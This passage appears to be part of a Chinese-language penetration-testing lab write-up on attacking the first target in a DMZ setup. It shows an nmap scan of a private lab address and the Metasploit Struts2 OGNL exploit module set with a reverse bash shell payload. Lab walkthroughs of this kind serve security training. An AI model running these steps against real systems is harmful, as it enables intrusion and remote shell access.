![](.assets_img/README/new_dmz_topology_ips.png)

## 6. 攻破靶标 1

信息收集——>`nmap` 端口扫描并尝试识别服务：

```bash
db_nmap -p 12862 192.168.56.175 -n -A
```

使用 `Metasploit` 的 `exploit/multi/http/struts2_multi_eval_ognl` 模块：

```bash
use exploit/multi/http/struts2_multi_eval_ognl
set payload payload/cmd/unix/reverse_bash  # 设置 payload 为 bash 反弹 shell
```

`options` 配置如下：

![](.assets_img/README/strusts2_payload.png)

